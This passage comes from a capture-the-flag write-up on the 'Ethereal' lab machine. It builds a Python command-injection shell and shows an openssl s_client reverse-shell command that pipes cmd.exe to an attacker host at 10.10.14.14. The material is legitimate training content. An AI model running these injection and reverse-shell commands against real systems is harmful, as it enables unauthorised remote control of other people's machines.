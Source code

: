 

        def do_quiet(self, args):
            command = f'& ( {args} )'
            self.send_post(command)



To call it, I can now just run:



    ethereal> quiet start cmd /c "c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73 | cmd.exe | c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:136"



### Adding Messages

I like to have a system that tells me what it's doing. I'll add in
status messages throughout the shell. Now, for example, when I start the
shell, it tells me what's going on when I am waiting for startup:



    root@kali# ./ethereal_shell.py 
    [*] Starting DNS Sniffer on tun0 for target 10.10.10.106.
    [*] Logging in and fetching state information.
    [+] State information received.
    ethereal>



Or exiting:



    ethereal> exit
    [*] Sending kill request.
    [*] Received kill packet. Shutting down sniffer thread.



## Full Code

The final code is below, and I'll post it on [my scripts git
repo](https://gitlab.com/0xdf/ctfscripts).



      1 #!/usr/bin/env python3
      2 
      3 import requests
      4 import sys
      5 import time
      6 from bs4 import BeautifulSoup
      7 from cmd import Cmd
      8 from requests.auth import HTTPBasicAuth
      9 from scapy.all import *
     10 from threading import Thread
     11 
     12 
     13 kill_domain = "0xdf.0xdf."
     14 
     15 
     16 class dns_sniff(Thread):
     17 
     18     def __init__(self, interface='tun0', target_ip='10.10.10.106'):
     19         super().__init__()
     20         self.interface = interface
     21         self.target_ip = target_ip
     22 
     23 